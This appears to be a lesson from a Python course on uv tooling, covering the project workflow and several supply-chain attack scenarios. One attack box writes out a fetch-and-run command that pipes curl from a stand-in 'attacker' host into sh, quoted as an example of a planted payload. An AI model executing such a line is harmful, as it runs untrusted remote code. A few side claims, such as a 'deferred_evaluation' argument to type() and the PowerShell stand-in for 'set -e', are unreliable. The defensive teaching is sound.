

# Lesson 07: uv Tooling Workflows

*Turning `notesearch` from a loose collection of scripts into a real `uv`-managed Python package — `pyproject.toml`, `uv sync`, `uv.lock`, `uv run`, and the reproducibility story that powers every code block in the rest of the academy.*

**Welcome to Lesson 07.**

Hello, friend. Pull up a chair. `uv` is the package manager we use throughout this academy — it replaced `pip` + `venv` + `pip-tools` + `pyenv` with a single Rust binary that is ~10x faster and dramatically easier to reason about. By the end of this lesson you will have initialised a real `uv` project, written a `pyproject.toml` (PEP 621), pinned your dependencies in a `uv.lock` for reproducibility, and run code inside the project with `uv run`. The same `uv` workflow powers every code block in the rest of the vault — when you see `uv run pytest` or `uv run uvicorn`, this is the lesson that introduced it. Take your time. Type every command. **This is how you learn.**


#python #uv #tooling #pyproject

## Learning Objectives

By the end of this lesson you will be able to:

1. **Install `uv` 0.13.1** (the verified October 2026 version) on macOS, Linux, and Windows.
2. **Run `uv init`** to scaffold a new Python project, and explain what files it creates and why.
3. **Read and write a `pyproject.toml` (PEP 621)**: `[project]` metadata, `[project.dependencies]`, `[project.optional-dependencies]` vs `[dependency-groups]`, `[tool.uv]` section.
4. **Run `uv sync`** to install dependencies into a project-local virtualenv, and explain the difference between `uv sync` and `uv pip install`.
5. **Read a `uv.lock` file** and explain why it is the *exact* reproducibility guarantee `requirements.txt` never was.
6. **Run `uv run`** to execute a command inside the project's environment — and explain why `uv run python script.py` is the academy's canonical invocation pattern.
7. **Add a dev-only dependency with `uv add --dev`** and explain why dev deps live in `[dependency-groups]` not `[project.optional-dependencies]`.
8. **Pin a Python version** with `requires-python = ">=3.12"` and `uv python pin 3.12`, and explain the difference.
9. **Use `uv tool install`** for global CLI tools (like `ruff`, `mypy`, `pytest`) that are not part of your project.
10. **Use uv workspaces** for monorepos with multiple packages.
11. **Diagnose the three classic uv failure modes**: "wrong interpreter", "lock out of date", Windows PowerShell's `&` quoting trap.
12. **Justify choosing `uv` over `poetry` / `pip-tools` / `hatch`** in 2026, with the specific trade-offs that drove the choice.

## Prerequisites

Before starting, you need:

- **A terminal and a Python installation.** `uv` will manage Python versions for you, but it is helpful to have a system Python too.
- **Lessons 01–06 of this section.** This lesson uses the exception hierarchy from Lesson 06 and the type hints from Lesson 05; it builds the project around the `notesearch` code you have been writing since Lesson 01.
- **Verified version: `uv 0.13.1`** (October 2026). Newer versions are fine; older versions may lack `[dependency-groups]` support (which requires `uv >= 0.4`).
- **About an hour and a half of focused time.** This lesson is more shell-driven than the previous ones — you will be running `uv` commands, not just reading Python.

**The most common gap: `uv` versus `pip`/`venv`/`pyenv`.**

If you have been using `python -m venv .venv && source .venv/bin/activate && pip install -r requirements.txt`, you have been doing four separate steps that `uv sync` collapses into one. The mental model is different: `uv` manages the project *as a whole* (Python version, dependencies, dev tools, lockfile), not just the venv. Re-read that sentence; it is the shift.


## The Problem

`notesearch` v6 is a 150-line `notesearch_v6.py` script. To test it, you ran `python notesearch_v6.py`. To add a dependency (e.g. `pytest`), you would `pip install pytest` — and now your local environment has `pytest` in it, but your colleague's environment does not, and your CI does not know to install it either.

The clean solution is a real project:

1. A `pyproject.toml` declares the project's name, version, dependencies, Python requirement, and dev tools.
2. A `uv.lock` file pins every transitive dependency to an exact version and hash, so `uv sync` on a different machine produces a byte-identical environment.
3. A `.python-version` file (or `requires-python`) pins the Python version.
4. `uv run <command>` executes any command inside the project's environment without you having to manually activate a venv.

This is the same workflow the rest of the academy uses. When Section 03 says `uv run uvicorn boardly.main:app`, the `uv run` part is what this lesson teaches.

**Note — Historical context — Python packaging, briefly**

Python's packaging story was, for many years, a mess: `setup.py` (2003), `easy_install`, `pip` (2008), `virtualenv` (2007), `pyenv` (2013), `pipenv` (2017), `poetry` (2018), `pyproject.toml` (PEP 518, 2016), `pyproject.toml` metadata (PEP 621, 2020), `hatch` (2022). Each tool solved a piece. In 2024, Astral (the company behind `ruff`) released `uv` — a single Rust binary combining `pip` + `venv` + `pip-tools` + `pyenv` + `poetry`'s core features. By 2026 it is the default for new Python projects. The verified version for this academy is `uv 0.13.1` (October 2026); we cite the docs at https://docs.astral.sh/uv/.


## The Code

There is no Python code in this lesson — it is a tooling lesson. The "code" is the sequence of shell commands and the resulting files. Here is the full session, runnable from a clean directory:

```bash
# 1. Install uv 0.13.1 (one-time setup)
# On macOS/Linux:
curl -LsSf https://astral.sh/uv/install.sh | sh
# Verify:
uv --version # uv 0.13.1

# 2. Initialise a new project
mkdir notesearch && cd notesearch
uv init --package --name notesearch --python 3.12
# Creates:
# pyproject.toml
# .python-version
# src/notesearch/__init__.py
# README.md
# .gitignore

# 3. Add runtime dependencies
uv add typing-extensions # for older Python compat — we use 3.12 so this is a no-op, but it shows the command

# 4. Add dev dependencies (test, lint, type-check)
uv add --dev pytest==8.* pytest-cov ruff==0.7.* mypy

# 5. Sync the environment (creates .venv/, installs everything per the lockfile)
uv sync

# 6. Run a command inside the project's environment
uv run python -c "import notesearch; print(notesearch.__file__)"
uv run pytest --version
uv run ruff --version

# 7. Pin Python version (writes .python-version)
uv python pin 3.12

# 8. Add a CLI entry point (so `uv run notesearch` works)
# Edit pyproject.toml to add:
# [project.scripts]
# notesearch = "notesearch.cli:main"
# Then `uv sync` again, then:
uv run notesearch --help
```

The resulting `pyproject.toml` looks like this:

```toml
[project]
name = "notesearch"
version = "0.1.0"
description = "A tiny in-memory full-text-search library — the FastAPI Engineering Academy's growing example."
readme = "README.md"
requires-python = ">=3.12"
dependencies = [
 "typing-extensions>=4.12",
]

[project.scripts]
notesearch = "notesearch.cli:main"

[dependency-groups]
dev = [
 "pytest>=8.0,<9.0",
 "pytest-cov>=5.0",
 "ruff>=0.7,<0.8",
 "mypy>=1.13",
]

[build-system]
requires = ["hatchling"]
build-backend = "hatchling.build"

[tool.uv]
package = true

[tool.ruff]
line-length = 100
target-version = "py312"

[tool.ruff.lint]
select = ["E", "F", "I", "B", "UP", "SIM", "RUF"]
ignore = ["E501"] # line length handled by formatter

[tool.mypy]
python_version = "3.12"
strict = true

[tool.pytest.ini_options]
testpaths = ["tests"]
addopts = "--strict-markers -ra"
```

## Line-by-Line Deep Dive

This is the heart of the lesson. Read it twice. Do not skip.

### Step 1: Install `uv`

```bash
curl -LsSf https://astral.sh/uv/install.sh | sh
```

**What it does:** Downloads Astral's official install script and runs it. The script detects your OS and architecture, downloads the matching `uv` binary, and installs it to `~/.local/bin/uv` (or `$XDG_BIN_HOME`).

**Why not `brew install uv` or `pip install uv`?** Both work; Astral's installer is the canonical source because it gets updates first. `brew` lags by a few days; `pip install uv` puts `uv` inside a Python environment, which is awkward because the entire point of `uv` is to manage Python environments. The standalone installer is the recommended path.

**Windows note:** On Windows, use PowerShell:

```powershell
powershell -ExecutionPolicy ByPass -c "irm https://astral.sh/uv/install.ps1 | iex"
```

Or `winget install --id=astral-sh.uv -e`. Both produce a `uv.exe` on your `%PATH%`.

**Verify:**

```bash
uv --version
# uv 0.13.1
```

If you see an older version, run `uv self update` (the binary can update itself).

**Danger — How an attacker thinks — the `curl | sh` install pattern.**

The install command is `curl -LsSf https://astral.sh/uv/install.sh | sh`. This is the same pattern `rustup`, `homebrew`, `nvm`, and many language toolchains use — fetch a script from a CDN, pipe it to a shell, let it write binaries into `~/.local/bin/`. The pattern is convenient and it is also a *root-equivalent* code-execution primitive if the CDN or the certificate authority chain is compromised. Two real-world precedents: the 2018 `Homebrew` CVE (a MITM could inject a payload into the install script because the curl command did not pass `--proto =https`), and the 2024 `xz` backdoor (a maintainer was socially-engineered into handing over commit access; the payload shipped in a release tarball). The defence in depth: (1) `uv`'s installer script is served over HTTPS and Astral pins the release artefacts in a `SHA256SUMS` file you can verify with `sha256sum $(which uv) | awk '{print $1}'` against the published hash on the GitHub release page. (2) For air-gapped or regulated environments, download the binary directly from the GitHub releases page (`https://github.com/astral-sh/uv/releases/download/0.13.1/uv-x86_64-unknown-linux-gnu.tar.gz`), verify the detached `.sig` signature with Astral's GPG key, and place it on `PATH` manually — no install script runs. (3) In CI, prefer `astral-sh/setup-uv@v6` (or the equivalent in your runner) which downloads from the GitHub release with a pinned version and a published hash, instead of `curl | sh`. The `curl | sh` line stays in the lesson because it is the documented canonical install; the senior engineer knows the verification step that follows it is non-optional in production.


### Step 2: `uv init`

```bash
mkdir notesearch && cd notesearch
uv init --package --name notesearch --python 3.12
```

**What it does:** Creates a new project directory with the standard files: `pyproject.toml`, `.python-version`, `src/notesearch/__init__.py`, `README.md`, `.gitignore`.

**Why `--package`:** Tells `uv` to use the `src/` layout (we cover this in Lesson 08) and to make `notesearch` an *installable* package, not just a collection of scripts. The alternative is `--application` (no installable package, just scripts); for `notesearch` we want a package so we can `import notesearch` from tests and from other modules.

**Why `--python 3.12`:** Tells `uv` to require Python 3.12. `uv` will use its own Python management (it can install 3.12 itself) — you do not need `pyenv` or a system 3.12. The `requires-python` field in `pyproject.toml` ends up as `">=3.12"`.

**Why `--name notesearch`:** Sets the package name. Without it, `uv init` infers from the directory name; here the directory is `notesearch` so it would be the same — but being explicit is the right habit when the directory might not match the package name (e.g. `boardly-app` directory with package `boardly`).

**Tip — `uv init` is idempotent.**

Running `uv init` in an existing project is safe — it will not overwrite your `pyproject.toml` if you have one. It will create the missing files. This is the canonical "scaffold a new project" command.


**Warning — Debugging: `uv init` in a non-empty directory adopts what it finds.**

`uv init` is *partially* idempotent: it will not overwrite a `pyproject.toml` that already exists, but it *will* scan the current directory for existing `.py` files and use them to infer project metadata. The footgun is running `uv init --package` inside a directory that already has a `notesearch.py` at the root (the leftover from Lesson 01–06). `uv init` then infers the package name from the directory, creates `src/notesearch/__init__.py`, but leaves `notesearch.py` at the repo root — and the next `uv run python -c "import notesearch"` resolves to the *root* `notesearch.py` (because cwd is on `sys.path[0]` for `python -c`), not the installed `src/notesearch/`. The symptom is `AttributeError: module 'notesearch' has no attribute 'Indexer'` even though you just wrote `Indexer` in `src/notesearch/indexer.py`. The diagnostic: `uv run python -c "import notesearch; print(notesearch.__file__)"` — if the printed path ends in `/notesearch.py` (root) rather than `/.venv/.../site-packages/notesearch/__init__.py`, you have a stray script shadowing the installed package. The fix: `git mv notesearch.py archive/lesson-01-06/notesearch_v6.py` (or `rm`) so the installed package wins, then `uv run python -c "import notesearch; print(notesearch.__file__)"` to confirm the path is now in `site-packages`. Lesson 08 covers the import-shadowing rule in detail; the trap is introduced here because `uv init` in a polluted directory is the most common way new learners hit it.


### Step 3: `uv add`

```bash
uv add typing-extensions
```

**What it does:** Adds `typing-extensions` to the `[project.dependencies]` list in `pyproject.toml`, resolves the transitive dependencies, updates `uv.lock`, and installs the new packages into the project's virtualenv (`.venv/` by default).

**Why we don't need `typing-extensions` on 3.12:** Python 3.12 has all the typing features we use; `typing-extensions` is a backport for older versions. The example above is illustrative — it shows the `uv add` command without requiring us to actually depend on something. In practice, you would `uv add pydantic` or `uv add fastapi` — that's Section 03 onward.

**What `uv add` does internally:**

1. Reads `pyproject.toml`.
2. Resolves the new dependency against the existing dependency tree (using a PubGrub-like solver — same algorithm as Cargo).
3. Writes the resolved versions and hashes to `uv.lock`.
4. Installs the new packages (and any new transitive deps) into `.venv/`.

**Note — What happens inside — uv's PubGrub resolver vs pip's backtracking.**

The "resolves the new dependency against the existing dependency tree" line above hides a real algorithm. `uv` uses **PubGrub**, the version-range solver published by Natalie Weizenbaum in 2018 (originally for Dart's `pub`, then adopted by Cargo, mix, and uv). PubGrub's core idea: instead of picking one version at a time and backtracking when a conflict appears, it maintains a *set of version ranges* per package and splits those ranges lazily as constraints accumulate. The result is fewer wrong guesses and, importantly, **better diagnostic messages** — when resolution fails, PubGrub can tell you "pydantic>=2.14,<3 depends on pydantic-core>=2.20,<2.21, but notesearch>=0.2 requires pydantic-core==2.19.0" with a precision pip's older resolver could not match. `pip` (since 20.3, December 2020) uses a backtracking resolver with restarts — it tries a version, and on conflict backtracks to the last decision point and tries the next. Backtracking is correct but, in pathological cases (the "dependency resolution hell" of 2019), exponential. PubGrub is not strictly faster on every input — but it produces fewer intermediate dead ends, which in practice means better wall-clock on real-world dependency trees. The `uv.lock` you commit is the *output* of one PubGrub run against a snapshot of PyPI; change `pyproject.toml` and uv re-runs PubGrub, producing a new lockfile. The cache (`~/.cache/uv` on Linux, `~/Library/Caches/uv` on macOS) stores downloaded wheels and a metadata index so re-resolutions against unchanged PyPI state are near-instant.


**Danger — How an attacker thinks — typosquatting and dependency confusion on `uv add`.**

When you type `uv add pydantic`, the PubGrub resolver queries PyPI for the package named *exactly* `pydantic`. The attack is not on `pydantic` — it is on the package you *meant* to type. Two real vectors. (1) **Typosquatting**: an attacker registers `pydatic` (missing `n`), `pydantic-2` (appended version), `pydantic_` (trailing underscore), or `python-pydantic` (common prefix confusion). The packages look identical in `pip search` output, the metadata often copies `pydantic`'s README, and the malicious payload is in `setup.py`'s `post_install` hook or in a `__init__.py` top-level `import os; os.system(...)`. You `uv add pydantic_` (autocomplete in your IDE filled in the wrong completion) and the attacker's code runs at the next `uv sync`. (2) **Dependency confusion**: an internal package named `acme-internal-utils` (not published to public PyPI, only to your private index) is typosquatted on public PyPI by an attacker. When `uv sync` resolves, it queries *both* your private index and public PyPI (the default `pip` behaviour) and picks the *higher* version — which is the attacker's `99.0.0` on public PyPI, not your `1.2.3` on the private index. The 2021 Alex Birsan disclosure showed this exact attack against Apple, Microsoft, and others. The defences: (a) `uv add` only the package name you intended — visually verify the name character-by-character before pressing Enter, and prefer copy-paste from the upstream docs over typing; (b) configure `[[tool.uv.index]]` in `pyproject.toml` to *explicitly* enumerate the indexes you trust, and set `explicit = true` so packages not found on those indexes are *not* silently fetched from PyPI; (c) in CI, run `uv sync --frozen` so the lockfile's recorded hashes are the only versions installed — a typosquatted package would have a different hash than what the lockfile expects, and `uv sync --frozen` refuses to install it; (d) for internal packages, use `--index-strategy unsafe-best-match` only when you understand the risk, and never in CI. The lockfile is the cryptographic boundary; the manifest's index configuration is the routing boundary; both are mandatory for any non-toy project.


### Step 4: `uv add --dev`

```bash
uv add --dev pytest==8.* pytest-cov ruff==0.7.* mypy
```

**What it does:** Adds the listed packages to the `[dependency-groups.dev]` section, not `[project.dependencies]`. Dev dependencies are not installed when someone installs your package from PyPI; they are only installed for development.

**Why `[dependency-groups]` and not `[project.optional-dependencies]`:** This is a 2024 distinction. PEP 621's `[project.optional-dependencies]` (also called "extras") is for *runtime* optional features — e.g. `pip install notesearch[redis]` installs the redis extras. PEP 735's `[dependency-groups]` (which `uv >= 0.4` supports) is for *development* groups — e.g. `uv sync --group dev` installs the dev tools. The split is clean: extras are part of the package's public API; dev groups are private to the development workflow.

**Why the version specifiers `pytest==8.*` and `ruff==0.7.*`:** We pin to a major version range. `pytest==8.*` allows any 8.x version but not 9.0. This balances reproducibility (we know what major version we'll get) with security updates (we get patch versions automatically).

**`uv sync` resolves the specifiers, picks exact versions, and writes them to `uv.lock`.** The lockfile is what guarantees reproducibility.



Why is the arrow from `pyproject.toml` to `uv.lock` *one-way* in the diagram? Because the lockfile is a *build artefact*, not source code. You regenerate it from `pyproject.toml`; you never hand-edit it. The blue node is what you write; the yellow node is what `uv` produces from what you wrote; the green nodes are what gets materialised on disk and executed. Editing `uv.lock` directly is the same category of mistake as editing your `*.pyc` files directly.

**Production reality — the dev/test/docs group split maps to your CI matrix.**

The `[dependency-groups]` section is not just a tidy place to put `pytest` and `ruff`; it is the *contract* your CI matrix reads from. The pattern in production-grade Python repos in 2026 is three groups — `dev` (lint + format: `ruff`, `ruff-format`), `test` (test runner + coverage: `pytest`, `pytest-cov`, `pytest-asyncio`, `pytest-mock`), `docs` (documentation build: `sphinx`, `myst-parser`, `sphinx-rtd-theme`) — and a CI matrix that installs only what each job needs. The workflow file: `uv sync --frozen --group test` for the test job, `uv sync --frozen --group dev` for the lint job, `uv sync --frozen --group docs` for the docs-build job. Two measurable wins. (1) **Cold-cache install time drops by 40–70 %** on the lint job because it no longer pulls `sphinx` and its 60+ transitive deps. (2) **The blast radius of a broken `sphinx` release is contained**: when `sphinx` ships a 7.4.0 with a Markdown-parser regression (this happened in Q1 2024, Q3 2025, and again in Q2 2026), only the docs-build job fails; the test and lint jobs stay green and the team's PRs are not blocked on a docs-tool regression. The rule: never put `sphinx` in the same group as `pytest`. The reason: a regression in a docs builder should never gate a runtime-code change. See [[12-Testing-and-Quality/CI-Pipelines]] for the matrix-as-code pattern; this lesson's `[dependency-groups]` is the input the matrix reads.


### Step 5: `uv sync`

```bash
uv sync
```

**What it does:** Reads `uv.lock`, creates a `.venv/` (or updates the existing one), installs every package at the *exact* version and hash recorded in the lockfile.

**Student asks: why is `uv.lock` better than `requirements.txt` with pinned versions?**

Because a `requirements.txt` pin like `pydantic==2.14.1` tells you the *direct* dependency version but says nothing about *transitive* dependencies (the packages `pydantic` itself depends on), and nothing about the *hash*. `uv.lock` records (a) every package in the resolved tree, including transitive ones you never named, (b) the exact version of each, (c) the hash of each wheel or sdist (so a supply-chain swap of a PyPI release is detected by `uv sync` before it ever reaches your `.venv`), and (d) which Python version range the resolution was computed against. Two machines with the same `uv.lock` and the same Python get the *byte-identical* set of installed files. `requirements.txt` + `pip install` cannot make that guarantee; even `pip install --require-hashes -r requirements.txt` is partial because it cannot verify transitive dependencies you did not list. The lockfile is what makes the academy's "verified October 2026" version claims actually verifiable — when we say "FastAPI 0.148.0", we mean "the version pinned in `uv.lock`, hash and all."


**Why `uv sync` and not `uv pip install -r requirements.txt`:**

- `uv sync` is reproducible by construction — same lockfile, same environment, byte-for-byte.
- `uv sync` is fast — `uv`'s Rust implementation installs packages ~10x faster than `pip`.
- `uv sync` handles the Python version — if `.python-version` says `3.12` and you don't have 3.12 installed, `uv` downloads it for you.
- `uv sync` is aware of dev groups — by default it installs the `dev` group; `uv sync --no-group dev` skips it (useful for production-like installs).

**Student asks: what if my CI installs `uv` and the lockfile is stale?**

`uv sync` will detect the drift, *re-resolve* `pyproject.toml` against PyPI, write a new `uv.lock`, install, and run — *not* fail. That is the wrong behaviour in CI: a stale lockfile in CI usually means a contributor forgot to commit `uv.lock` after `uv add`, and silently re-resolving means CI is testing a *different* environment than what `uv.lock` says. The fix is to run `uv sync --frozen` in CI — the `--frozen` flag tells `uv` "do not re-resolve; if `uv.lock` is stale, fail." Set this in your CI job before the test step: `uv sync --frozen --no-group dev && uv run pytest`. If a contributor forgot to commit `uv.lock`, CI fails loudly with a clear message; the contributor re-runs `uv sync` locally, commits the new lockfile, and pushes again. The same pattern applies to deployment: `uv sync --frozen` in the Docker build step, so a stale lockfile fails the build rather than producing a different image than the lockfile describes.


**Note — Production reality — the CI cache strategy for `uv sync`.**

A `uv sync` from a cold cache takes 20–60 seconds on a real project (download every wheel, build every sdist, link every entry point). A `uv sync` from a warm cache takes under a second — `uv`'s cache is content-addressed, so a wheel that hasn't changed is hard-linked, not re-downloaded. The CI job that turns a 45-second cold sync into a 0.8-second warm sync is worth real money at the scale of a 50-developer team running 2,000 CI jobs a day. Three layers, in order of return on effort. **(1) Cache the uv binary itself.** Use the `astral-sh/setup-uv` action in GitHub Actions (or the equivalent in your CI) — it installs `uv` in one step and pins a version. **(2) Cache `~/.cache/uv` keyed by `uv.lock` hash.** The `setup-uv` action does this by default with `cache: true` and a key of `hashFiles('uv.lock')`; the action restores the cache on hit and uv's hard-link cache means a hit skips every download. **(3) Cache `.venv/` only if you have measured the payoff.** Most teams skip this — the `.venv/` is reproducible from the uv cache in under a second, and caching it adds 200 MB of cache storage per job per runner. The exception is monorepos with workspace members, where `.venv/` is large and re-creating it from scratch is non-trivial. The CI line that ties it together: `uv sync --frozen --no-group dev --no-install-project` for the deps layer (caches even when the project code changes), then `uv sync --frozen --no-group dev` for the project install, then `uv run pytest`. The `--frozen` on every step is the contract: if the lockfile drifts even once, the build fails before any test wastes a minute.


**What gets created:**

- `.venv/` — the virtualenv (in the project root).
- `.venv/bin/python` — the Python interpreter (a symlink or copy of the 3.12 that `uv` manages).
- `.venv/lib/python3.12/site-packages/` — installed packages.

**Warning — Don't commit `.venv/` to git.**

`.venv/` is machine-specific and reproducible from `uv.lock`. Add it to `.gitignore` (the `uv init` command does this for you). The lockfile is the source of truth.


**Warning — Debugging — the partial-sync failure (network drops mid-install).**

`uv sync` is not transactional across the *full* dependency set. If the network drops at package 47 of 200, `uv sync` exits non-zero, leaves the previous `.venv/` state in place, and writes a *partial* entry to the cache index. The next `uv sync` resumes from where it left off (this is the good news). The bad news: if you ran `uv sync` and it exited non-zero but you did not notice (CI log scrolled past, the developer ran a second command immediately), the `.venv/` is in a *mixed* state — some packages at the new lockfile version, some at the old, some not installed at all. The symptom is `ImportError: cannot import name 'X' from 'pydantic'` even though `uv.lock` says `pydantic==2.14.1`. The diagnostic flow: (1) `uv run python -c "import pydantic; print(pydantic.VERSION, pydantic.__file__)"` — if the printed version does *not* match `uv.lock`'s recorded version, you have a partial sync. (2) `uv sync --reinstall` — the `--reinstall` flag forces `uv` to discard the cache index for the project and re-link every wheel. (3) If `--reinstall` does not fix it, `rm -rf .venv && uv sync` — the nuclear option, guaranteed clean. The senior engineer's rule: any `uv sync` exit code other than `0` in CI should *fail the job* and not produce a fallback environment; the partial-sync state is a silent test-passes-but-wrong-environment failure mode that is harder to diagnose than a clean failure. Set `set -euo pipefail` (bash) or `$PSDefaultParameterValues['*:Verbose']` (PowerShell) so the failure is loud.


### Step 6: `uv run`

```bash
uv run python -c "import notesearch; print(notesearch.__file__)"
uv run pytest --version
uv run ruff --version
```

**What it does:** Executes the given command (`python`, `pytest`, `ruff`) inside the project's `.venv`. You do not need to `source .venv/bin/activate` first — `uv run` handles the environment for you.

**Student asks: why use `uv run` instead of `source .venv/bin/activate && python ...`?**

Because `uv run` is a *guarantee*, not a *convention*. Activation depends on the shell: `source` works in bash and zsh but PowerShell needs a different verb, `fish` needs a different one again, and Windows `cmd.exe` needs a third. If you write `source .venv/bin/activate` in your README, you are signalling "this project only works on POSIX shells." `uv run` detects the project root from the current directory, finds or creates `.venv/`, re-syncs it if `uv.lock` has drifted, and then runs your command — on every shell, on every OS, identically. The academy's convention is therefore: *always* `uv run <command>`, *never* activate. Treat `source .venv/bin/activate` as a habit you unlearn.


**Why this is the academy's canonical pattern:**

- `uv run` is self-documenting — anyone reading your README knows exactly which environment to use.
- `uv run` works in CI without activation scripts.
- `uv run` works on Windows without PowerShell quoting issues (mostly — see Common Mistake #5).
- `uv run` re-syncs the environment if it is out of date, so you never accidentally run against a stale `.venv`.

**Tip — `uv run` re-syncs automatically.**

If you edit `pyproject.toml` to add a new dependency but forget to `uv sync`, the next `uv run <command>` will run `uv sync` for you. This is the academy's safety net.


**Production reality — `uv run` as the Docker ENTRYPOINT, not activation.**

The Docker image's `ENTRYPOINT` is where the academy's `uv run` pattern meets the production container. Two competing styles exist. (1) *Activation style*: `RUN uv sync --frozen --no-group dev`, then `CMD [".venv/bin/python", "-m", "notesearch.app"]` — the image bakes the venv into the filesystem, the container starts the venv's Python directly. (2) *`uv run` style*: `RUN uv sync --frozen --no-group dev`, then `ENTRYPOINT ["uv", "run", "python", "-m", "notesearch.app"]` — the container runs `uv` first, which validates the lockfile, re-syncs if needed, then runs Python. The `uv run` style costs ~30 ms of startup overhead (uv's process spawn + lockfile check) on every container start, which is real for high-throughput request-per-second services but invisible for batch jobs. The win is **lockfile integrity on every start**: if a teammate rebuilt the image but forgot to bump the lockfile (the `--frozen` flag in the build step catches this, but `uv run` in the entrypoint is the *second* line of defence), `uv run` re-syncs before Python starts, and the container either starts against the *correct* environment or fails loudly. For Lambda and other serverless cold-start contexts where 30 ms is the difference between a 200 ms and 230 ms p99 latency, prefer the activation style and rely on the build step's `--frozen` for lockfile integrity. For long-lived containers (gunicorn workers, Celery workers, Kubernetes Deployments), prefer `uv run` — the 30 ms is amortised across hours of uptime and the integrity check is free. See [[16-Deployment-and-DevOps/Docker-Multi-Stage-Non-Root]] for the multi-stage Dockerfile pattern that produces the smallest possible image with `uv`.


### Step 7: `uv python pin`

```bash
uv python pin 3.12
```

**What it does:** Writes `3.12` to `.python-version` in the project root. `uv` and other tools (like `pyenv`) read this file to know which Python version to use.

**Difference from `requires-python`:** `requires-python = ">=3.12"` in `pyproject.toml` is the *contract* — "this package requires Python 3.12 or newer." `.python-version` is the *developer's local preference* — "I am using 3.12 for development." They are complementary: the contract says what versions *work*; the pin says what version *you* use.

**Why we use both in this academy:**

- `requires-python = ">=3.12"` lets users install on 3.12 or 3.13.
- `.python-version = 3.12` makes the dev experience consistent — every contributor uses 3.12 for development.

**Production reality — the CI Python-version matrix and the `requires-python` contract.**

The lesson says "`requires-python = ">=3.12"` lets users install on 3.12 or 3.13." The production version of that statement is: the CI matrix runs *every* Python version in the `requires-python` range, on *every* push. The matrix entry is `python-version: ["3.12", "3.13", "3.14"]` (the GitHub Actions syntax), and the CI job is `uv python pin ${{ matrix.python-version }} && uv sync --frozen && uv run pytest`. The failure mode the matrix catches: a developer uses a 3.13-only stdlib feature (e.g. `type`'s new `deferred_evaluation` parameter, introduced in 3.13) and the code passes on 3.13 but fails on 3.12 with `TypeError: type() got an unexpected keyword argument 'deferred_evaluation'`. Without the matrix, the failure is discovered by a downstream user six weeks after the publish. With the matrix, the failure is discovered on the PR that introduced the regression, before the merge. The senior engineer's rule for `requires-python`: *every* version in the range has a CI matrix entry; if a version is not in the matrix, it is not in `requires-python`. The corollary: bumping `requires-python` from `>=3.12` to `>=3.13` is a breaking change for downstream users and should be a major-version bump (`notesearch 1.0 -> 2.0`), not a minor one. The `requires-python` range is the package's public API; treat it accordingly.


### Step 8: `[project.scripts]`

```toml
[project.scripts]
notesearch = "notesearch.cli:main"
```

**What it does:** Declares a console-script entry point. After `uv sync`, the command `notesearch` (which calls `notesearch.cli:main`) is available in `.venv/bin/notesearch`. You can run it with `uv run notesearch`.

**Why this is the modern alternative to `if __name__ == "__main__":`:** The `if __name__ == "__main__":` pattern works for a single script, but it requires the user to know the file path. A console-script entry point gives the user a single command (`notesearch --help`) that works regardless of the current directory. FastAPI's `uvicorn` and `pytest`'s `pytest` are both console-script entry points.

**Danger — How an attacker thinks — `PATH`-order shadowing of console-script entry points.**

`[project.scripts]` writes a wrapper shell script to `.venv/bin/notesearch` (POSIX) or `.venv/Scripts/notesearch.exe` (Windows). The wrapper invokes `.venv/bin/python -c 'from notesearch.cli import main; main()'`. The attack surface is the `$PATH` lookup order: when a user types `notesearch`, the shell searches `$PATH` left-to-right and runs the *first* `notesearch` it finds. If `~/.local/bin` is on `$PATH` *before* `.venv/bin` (a common misconfiguration — the user installed `uv tool install notesearch` last year and the global binary shadows the project's), the wrong binary runs. Two real failure modes: (1) **Version mismatch**: the global `notesearch` is `0.1.0` (last year's `uv tool install`), the project's `.venv/bin/notesearch` is `0.2.0` (this morning's `uv sync`). The user runs `notesearch --help` from the project root, sees the 0.1.0 help, gets confused. The diagnostic: `which notesearch` (POSIX) or `Get-Command notesearch` (PowerShell) — if the printed path is *not* inside the project's `.venv/bin/`, you have a shadow. (2) **Malicious binary**: an attacker with write access to `~/.local/bin` (via a shared dev machine, a compromised `dotfiles` repo, or a typosquatted `uv tool install`) plants a `notesearch` shell script that runs `python -c 'import os; os.system("curl http://attacker | sh")'` before delegating to the real binary. The user runs `notesearch --help`, the malicious payload executes with the user's privileges, and the real `notesearch` runs afterwards (so the user sees the expected help output and notices nothing). The defences: (a) `uv run notesearch --help` *always* — `uv run` resolves the project's `.venv/bin/` first, bypassing the global `$PATH` entirely; (b) `echo $PATH | tr ':' '\n' | head -5` — verify `.venv/bin` is *not* shadowed by `~/.local/bin`; (c) for production containers, set `ENV PATH="/app/.venv/bin:$PATH"` in the Dockerfile so the venv is first; (d) never `uv tool install` a package with the same name as a project you actively develop — the global install *will* shadow your dev work. The `uv run` discipline is the single most effective defence; it makes `$PATH` order irrelevant for project commands.


### The `[tool.uv]` section

```toml
[tool.uv]
package = true
```

**What it does:** Tells `uv` to treat this project as an installable package (i.e. `notesearch` is installed into `.venv` so `import notesearch` works). Without `package = true`, `uv sync` would not install the project itself — you'd have to `pip install -e .` separately.

**Why `package = true` for `notesearch`:** We want to `import notesearch` from tests and from other modules. The flag makes that work without an extra step.

### `[tool.ruff]`, `[tool.mypy]`, `[tool.pytest.ini_options]`

These three sections configure the dev tools. They are project-local — each tool reads its own section.

- `[tool.ruff]` configures `ruff` (linter and formatter). We enable rules E, F, I (isort), B (bugbear, including B006 — the mutable-default-argument rule from Lesson 01!), UP (pyupgrade), SIM (simplifications), RUF (ruff-specific).
- `[tool.mypy]` configures `mypy`. `strict = true` enables all the strict flags.
- `[tool.pytest.ini_options]` configures `pytest`. `testpaths = ["tests"]` tells pytest where to look; `--strict-markers` makes unknown `@pytest.mark.foo` an error (catches typos).

**Production reality — config drift between local and CI ruff versions.**

